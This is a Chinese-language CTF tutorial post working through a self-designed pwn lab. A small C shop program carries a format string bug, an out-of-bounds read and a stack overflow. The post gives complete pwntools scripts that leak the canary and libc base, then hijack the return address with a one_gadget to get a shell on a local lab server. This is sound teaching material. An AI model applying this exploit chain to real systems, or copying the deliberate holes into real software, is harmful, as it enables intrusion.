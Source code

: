 ```yaml
---
title: "Day20－Stack 題目練習"
date: 2024-09-20
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

今天大致來到 Stack 部分的尾聲，前面的內容我們討論了幾個經典的 Stack 漏洞，講解了如何進行攻擊並編寫 exploit，也介紹了不少實用的工具。今天，我們將實際練習一道程式碼量較大的題目，這是我在 HITCON 社團攤位時設計的練習題目。

## Lab

查看以下原始碼：

```c=
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int choice,num;
char *product[3] = {
    "shirt\n",
    "sticker\n",
    "tissue\n"
};

void buy(){
    printf("We have 3 products:\n");
    for(int i=0; i<3; i++){
        printf("%d. %s", i+1, product[i]);
    }
    printf("Which one do you want to buy? ");
    scanf("%d", &choice);
    printf("You have bought %s\n", product[choice-1]);
    printf("How many do you want to buy? ");
    scanf("%d", &num);
    return;
}

char address[0x20];
int main(){
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stdin, 0, _IONBF, 0);
    printf("This is HackerSir!\n");
    printf("Welcome to the shop!\n");
    printf("1. Buy\n");
    printf("2. Exit\n");
    printf("Your choice: ");
    scanf("%d", &choice);
    if(choice==1){
        buy();
        printf("Please leave your address: ");
        scanf("%s", address);
        printf(address);
    }else{
        printf("Goodbye!\n");
        exit(0);
    }
    char last[0x10];
    printf("\nleave your last message to our club: ");
    read(0, last, 0x30);
    return 0;
}
```

使用以下指令進行編譯：

```bash=
gcc src/online_shopping.c -o ./online_shopping/share/online_shopping -fstack-protector-all -z now
```

## writeup

從編譯參數可以看出，程式是動態連結且保護全開。如果想要透過 return address 控制程式流程，需要先 leak 出 canary。我們注意到第 18 行有機會透過越界存取資訊，第 38 行可以利用 format string bug 來 leak 出 stack 資訊，最後的 read 也可能導致 overflow。因此，我們需要確認以下幾點：

- 能否找到 libc base 和 canary
- 有多少 overflow 空間，以及能否透過某種方法獲取 shell

首先確認能否找到 libc base 和 canary。這裡使用簡單的 script 來驗證是否可以利用 format string 漏洞 leak 出這些資訊。在此之前，我們可以換用適當的 libc，參考[Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126)

利用 format string 漏洞，先用 %p 格式輸出 stack 的值，通過 gdb 檢查是否能獲取有用的資訊。後面的 `-` 用來分隔每個位置，方便後續寫 exploit 時精確控制。

以下是簡單的 script：

```py=
from pwn import *
r = process('./online_shopping')
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p')
leak = r.recvuntil('\n', drop=True)
print(leak)
r.interactive()
```

執行後，可以看到第三個參數 offset 是 0x21aaa0，第九個參數是 canary。將 leak 的 payload 改為 `%3$p-%9$p` 以 leak 出 libc base 和 canary，並計算出 libc base。

![image](/images/iron2024/day20_image1.png)

![image](/images/iron2024/day20_image2.png)

![image](/images/iron2024/day20_image3.png)

以下是驗證的 script：

```py=
from pwn import *
import sys
r = process('./online_shopping')
# r = remote('127.0.0.1', 10011)
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%3$p-%9$p')
cnt = r.recvuntil('\n', drop=True)
cnt = cnt.split(b'-')
libc = int(cnt[0], 16) - 0x21aaa0
log.success('libc = ' + hex(libc))
canary = int(cnt[1], 16)
log.success('canary = ' + hex(canary))
r.interactive()
```

確認成功 leak 到 libc 和 canary。

![image](/images/iron2024/day20_image4.png)

接下來，我們嘗試控制程式流程。根據 objdump，我們知道從 rbp-0x20 開始輸入 0x30，因此只可以控制到 return address。由於我們已經 leak 出 libc base，接下來使用 one_gadgets 獲取 shell，具體可參考 [Day14－Other ret2libc(one gadgets)](https://ithelp.ithome.com.tw/articles/10359719)

![image](/images/iron2024/day20_image5.png)

完整 exploit：

要記得我們在 rbp 前要填入我們所 leak 到的 canary，不然程式會 crash，另外，可以將 rbp 填入 libc 的 bss 段，因為我們沒有事先 leak pie

```py=
from pwn import *
import sys
# r = process('../online_shopping/share/online_shopping')
r = remote('127.0.0.1', 10011)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%3$p-%9$p')
cnt = r.recvuntil('\n', drop=True)
cnt = cnt.split(b'-')
libc = int(cnt[0], 16) - 0x21aaa0
log.success('libc = ' + hex(libc))
canary = int(cnt[1], 16)
log.success('canary = ' + hex(canary))
og = libc + 0xebd3f
payload2 = b'A' * 0x18 + p64(canary) + p64(libc + 0x21be00) + p64(og)
r.sendlineafter('club: ', payload2)
r.interactive()
```

solved!!!

![image](/images/iron2024/day20_image6.png)
